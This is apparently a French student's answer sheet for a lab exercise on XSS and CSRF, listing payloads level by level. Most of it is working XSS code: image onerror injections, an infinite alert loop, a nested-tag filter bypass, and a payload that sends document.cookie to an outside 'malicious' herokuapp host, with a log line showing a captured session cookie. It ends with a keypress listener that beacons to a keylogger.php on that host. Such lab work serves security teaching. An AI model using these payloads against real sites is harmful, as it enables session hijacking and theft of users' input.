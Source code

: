 # Réponses TP XSS-CSRF

## Partie 1:

### Level 1:

1. <img src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet") ></img>

### Level 2:

1. <img src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet") ></img> dans le champ Titre

2. les concepteur du site ont supprimés les balises script

3. Elles sont récupérées en dur sans filtre

4. <img src='non_existing_image.jpg' onerror=while(true){ alert("Bonjour l'Internet")} ></img>

5.  <img src='non_existing_image.jpg' onerror="var addr = 'https://my-malicious-ws-maisonhaute.herokuapp.com/' + document.cookie; var imgTag = document.createElement('img') ; imgTag.setAttribute('src', addr); document.body.appendChild(imgTag);" ></img>

   connect.sid=s%3A-m10uXC7L9XXJypeeOg9SGPGW8937HDS.DCmr35jaEgkiURpg5r0AZaHS0%2BvRfzSow%2Bgp5i5n3C0:1 GET https://my-malicious-website-berger.herokuapp.com/connect.sid=s%3A-m10uXC7L9XXJypeeOg9SGPGW8937HDS.DCmr35jaEgkiURpg5r0AZaHS0%2BvRfzSow%2Bgp5i5n3C0 404 (Not Found)

### Level 3:

1. <i<img>mg src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet")/>

2. ```js
   (function() {
         var httpRequest;
         window.addEventListener('keypress', f);
   
         function f() {
           httpRequest = new XMLHttpRequest();
   
           if (!httpRequest) {
             console.log('Problème /!\ Impossible de créer une requête XMLHttp');
             return false;
           }
           httpRequest.onreadystatechange = alert;
           httpRequest.open('GET', 'https://my-malicious-website-berger.herokuapp.com/keylogger.php');
           httpRequest.setRequestHeader('Access-Control-Allow-Origin', null);
           httpRequest.send();
         }
   
         function alert() {
           if (httpRequest.readyState === XMLHttpRequest.DONE) {
             if (httpRequest.status === 200) {
               console.log(httpRequest.responseText);
             } else {
               console.log('Error /!\ R');
             }
           }
         }
       })();
   ```

